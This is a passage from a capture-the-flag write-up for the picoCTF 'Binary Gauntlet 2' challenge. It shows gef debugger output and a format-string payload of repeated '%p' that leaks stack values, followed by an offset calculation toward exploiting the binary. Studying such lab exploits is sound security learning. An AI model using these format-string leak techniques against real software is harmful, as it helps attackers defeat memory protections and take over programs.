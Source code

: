 ```
     0x400692 <main+11>        mov    QWORD PTR [rbp-0x80], rsi
     0x400696 <main+15>        mov    edi, 0x3e8
 →   0x40069b <main+20>        call   0x400580 <malloc@plt>
   ↳    0x400580 <malloc@plt+0>   jmp    QWORD PTR [rip+0x200aaa]        # 0x601030 <malloc@got.plt>
        0x400586 <malloc@plt+6>   push   0x3
        0x40058b <malloc@plt+11>  jmp    0x400540
        0x400590 <fflush@plt+0>   jmp    QWORD PTR [rip+0x200aa2]        # 0x601038 <fflush@got.plt>
        0x400596 <fflush@plt+6>   push   0x4
        0x40059b <fflush@plt+11>  jmp    0x400540
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── arguments (guessed) ────
malloc@plt (
   $rdi = 0x00000000000003e8,
   $rsi = 0x00007fffffffe958 → 0x00007fffffffebda → "/media/sf_CTFs/pico/Binary_Gauntlet_2/gauntlet",
   $rdx = 0x00007fffffffe968 → 0x00007fffffffec09 → "LANG=en_IL"
)
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "gauntlet", stopped 0x40069b in main (), reason: SINGLE STEP
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x40069b → main()
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef>  p/x $rbp-0x70
$1 = 0x7fffffffe7f0
```

The address is `0x7fffffffe7f0`. Now, we can allow the program to continue, and when it requests us to enter a string via `fgets`, we'll enter `%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.` to inspect the contents of the stack:

```
gef>  c
Continuing.
%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.
0x602691.(nil).0x6026c1.0x6022a0.0x7ffff7fb1be0.0x7fffffffe958.0x100000000.(nil).(nil).(nil).(nil).0xf0b5ff.0xc2.0x1.0x40077d.(nil).
```

Looking at the values leaked back to us, we see that the sixth value is relatively near to the local buffer's address: `0x7fffffffe958`. We can calculate the difference between both values: 

```python
>>> hex(0x7fffffffe958 - 0x7fffffffe7f0)
'0x168'
```
